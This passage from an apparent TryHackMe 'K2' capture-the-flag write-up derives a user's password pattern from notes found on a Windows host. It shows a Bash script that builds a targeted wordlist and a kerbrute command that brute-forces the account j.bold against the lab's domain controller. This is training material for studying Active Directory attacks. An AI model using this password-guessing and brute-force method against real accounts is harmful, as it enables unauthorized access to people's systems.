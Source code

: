 In `C:\Users\r.bud\Documents` we find two txt files: `notes.txt` and `note_to_james.txt`.

![notes content](/images/THM-K2/rbud_notes_content.png)

This is an exchange about some password compliance. James added two characters to his previous password which was `rockyou` in order to meet the criteria.

From that we know that James' password is **9** characters long and includes `rockyou`, a special character and a number.

Let's use a Bash script to generate some passwords.

```bash
#!/bin/bash

special_characters=('!' '@' '#' '$' '%' '^' '&' '*')
numbers=(0 1 2 3 4 5 6 7 8 9)

output_file="james_passwords.txt"

> "$output_file"

for special in "${special_characters[@]}"; do
    for number in "${numbers[@]}"; do
    
        echo "${special}${number}rockyou" >> "$output_file"
        
        echo "${number}${special}rockyou" >> "$output_file"
        
        echo "rockyou${number}${special}" >> "$output_file"
        
        echo "rockyou${special}${number}" >> "$output_file"
    done
done

echo "Password list generated in $output_file"
```

We can then use that list against the valid username `j.bold`.

```
./kerbrute bruteuser --dc K2Server.k2.thm -d k2.thm james_passwords.txt j.bold
```

![j.bold credentials found](/images/THM-K2/jbold_pwd_found.png)

We find the valid credentials `j.bold:#8rockyou`. Still we are unable to login via evil-winrm for james because his `Remote Access` was removed.

We can confirm this with the outputs of `net user r.bud` and `net user j.bold`. Rose Bud is part of the `Remote Management Use` group.

![rose group memberships](/images/THM-K2/rosebud_remote_access.png)

But James Bold is not.
